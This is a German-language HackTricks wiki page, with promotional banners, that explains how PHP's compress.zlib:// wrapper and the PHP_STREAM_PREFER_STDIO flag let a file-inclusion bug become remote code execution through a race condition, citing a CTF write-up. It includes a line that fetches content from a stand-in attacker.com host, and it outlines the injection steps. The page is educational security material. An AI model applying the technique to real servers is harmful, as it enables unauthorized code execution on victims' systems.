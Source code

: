 # LFI2RCE Via compress.zlib + PHP\_STREAM\_PREFER\_STUDIO + Path Disclosure

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

### `compress.zlib://` und `PHP_STREAM_PREFER_STDIO`

Eine Datei, die mit dem Protokoll `compress.zlib://` und dem Flag `PHP_STREAM_PREFER_STDIO` geöffnet wurde, kann weiterhin Daten, die später an die Verbindung ankommen, in dieselbe Datei schreiben.

Das bedeutet, dass ein Aufruf wie:
```php
file_get_contents("compress.zlib://http://attacker.com/file")
```
Wird eine Anfrage an http://attacker.com/file gesendet, könnte der Server die Anfrage mit einer gültigen HTTP-Antwort beantworten, die Verbindung offen halten und später zusätzliche Daten senden, die ebenfalls in die Datei geschrieben werden.

Sie können diese Informationen in diesem Teil des php-src-Codes in main/streams/cast.c sehen:
```c
/* Use a tmpfile and copy the old streams contents into it */

if (flags & PHP_STREAM_PREFER_STDIO) {
*newstream = php_stream_fopen_tmpfile();
} else {
*newstream = php_stream_temp_new();
}
```
### Race Condition zu RCE

[**Dieses CTF**](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer) wurde mit dem vorherigen Trick gelöst.

Der Angreifer wird den **Opfer-Server dazu bringen, eine Verbindung herzustellen, um eine Datei vom Server des Angreifers zu lesen** unter Verwendung des **`compress.zlib`** Protokolls.

**Während** diese **Verbindung** besteht, wird der Angreifer den **Pfad** zur erstellten temporären Datei **exfiltrieren** (er wird vom Server geleakt).

**Während** die **Verbindung** noch offen ist, wird der Angreifer eine **LFI ausnutzen, um die temporäre Datei** zu laden, die er kontrolliert.

Es gibt jedoch eine Überprüfung im Webserver, die **das Laden von Dateien verhindert, die `<?` enthalten**. Daher wird der Angreifer eine **Race Condition** ausnutzen. In der noch offenen Verbindung wird der **Angreifer** die **PHP-Nutzlast NACHDEM** der **Webserver** **überprüft** hat, ob die Datei die verbotenen Zeichen enthält, aber **BEVOR sie ihren Inhalt lädt**.

Für weitere Informationen siehe die Beschreibung der Race Condition und das CTF in [https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
